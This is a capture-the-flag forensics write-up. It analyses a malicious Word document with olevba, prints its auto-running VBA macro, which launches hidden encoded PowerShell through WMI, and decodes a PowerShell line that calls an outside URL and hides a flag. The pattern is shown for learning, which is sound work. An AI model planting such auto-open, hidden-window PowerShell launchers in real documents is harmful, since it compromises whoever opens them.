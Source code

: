 # **Homework**

### **Challenge**
We received our daily email from our teacher about our homework but it looks different today :(

<br>
<br>

#### **Creator**: Gabriel Seet


#### **Category:** Forensics



<br>

---

### **Solution**

We are given a .doc file to analyse.

The file is flagged as **malicious**, so I used `Olevba` to analyse the file as shown below:

```console
┌──(root㉿kali)-[~]
└─# olevba --decode Homework.doc

olevba 0.60.1 on Python 3.10.5 - http://decalage.info/python/oletools
===============================================================================
FILE: Homework.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: Homework.doc - OLE stream: 'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
        Sub Document_Open()
        Execute

        End Sub


             Public Function Execute() As Variant
                Const HIDDEN_WINDOW = 0
                strComputer = "."
                Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
         
                Set objStartup = objWMIService.Get("Win32_ProcessStartup")
                Set objConfig = objStartup.SpawnInstance_
                objConfig.ShowWindow = HIDDEN_WINDOW
                Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root\cimv2:Win32_Process")
                objProcess.Create "powershell.exe -encoded JABmAGwAYQBnACAAPQAgACIARgBMAEEARwB7AHcAMAByAGQAIgA7ACAAJAB3AHMAaABlAGwAbAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBDAG8AbQBPAGIAagBlAGMAdAAgAFcAcwBjAHIAaQBwAHQALgBTAGgAZQBsAGwAOwAgACQAdwBzAGgAZQBsAGwALgBQAG8AcAB1AHAAKAAiAEgAZQBsAGwAbwAgAFcAbwByAGwAZAAiACwAMAAsACIAOgBEACIALAAwAHgAMQApADsAIABpAHcAcgAgAGgAdAB0AHAAcwA6AC8ALwBuAHkAcABjAGcAYwBxAHUAYQBsAHMALgBjAG8AbQAvAF8AcAAwAHcAMwByADsAIAAkAHMAIAA9ACAAIgBzAGgAZQBsAGwAfQAiADsAIAAkAGEAIAA9ACAAJABzAC4AcgBlAHAAbABhAGMAZQAoACIAZQAiACwAIAAiADMAIgApAA==", Null, objConfig, intProcessID
             End Function
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|Create              |May execute file or a system command through |
|          |                    |WMI                                          |
|Suspicious|powershell          |May run PowerShell commands                  |
|Suspicious|ShowWindow          |May hide the application                     |
|Suspicious|GetObject           |May get an OLE object with a running instance|
|IOC       |powershell.exe      |Executable file name                         |
+----------+--------------------+---------------------------------------------+


```


There is an encoded base64 in the file, we'll decipher it and see what we get.

<br>
<br>

```console
┌──(root㉿kali)-[~]
└─# echo 'JABmAGwAYQBnACAAPQAgACIARgBMAEEARwB7AHcAMAByAGQAIgA7ACAAJAB3AHMAaABlAGwAbAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBDAG8AbQBPAGIAagBlAGMAdAAgAFcAcwBjAHIAaQBwAHQALgBTAGgAZQBsAGwAOwAgACQAdwBzAGgAZQBsAGwALgBQAG8AcAB1AHAAKAAiAEgAZQBsAGwAbwAgAFcAbwByAGwAZAAiACwAMAAsACIAOgBEACIALAAwAHgAMQApADsAIABpAHcAcgAgAGgAdAB0AHAAcwA6AC8ALwBuAHkAcABjAGcAYwBxAHUAYQBsAHMALgBjAG8AbQAvAF8AcAAwAHcAMwByADsAIAAkAHMAIAA9ACAAIgBzAGgAZQBsAGwAfQAiADsAIAAkAGEAIAA9ACAAJABzAC4AcgBlAHAAbABhAGMAZQAoACIAZQAiACwAIAAiADMAIgApAA==' | base64 --decode

$flag = "FLAG{w0rd"; $wshell = New-Object -ComObject Wscript.Shell; $wshell.Popup("Hello World",0,":D",0x1); iwr https://nypcgcquals.com/_p0w3r; $s = "shell}"; $a = $s.replace("e", "3")
```

We can see that parts of the flag are scattered throughout the decrypted output.

<br>
<br>

First part is **`FLAG{w0rd`**.

Second part is **`_p0w3r`**.

Last part is **`shell}`** (replace e with 3, given `$s.replace("e", "3")`)

<br>
<br>

Putting them together, we get the flag:

> **FLAG{w0rd_p0w3rsh3ll}**


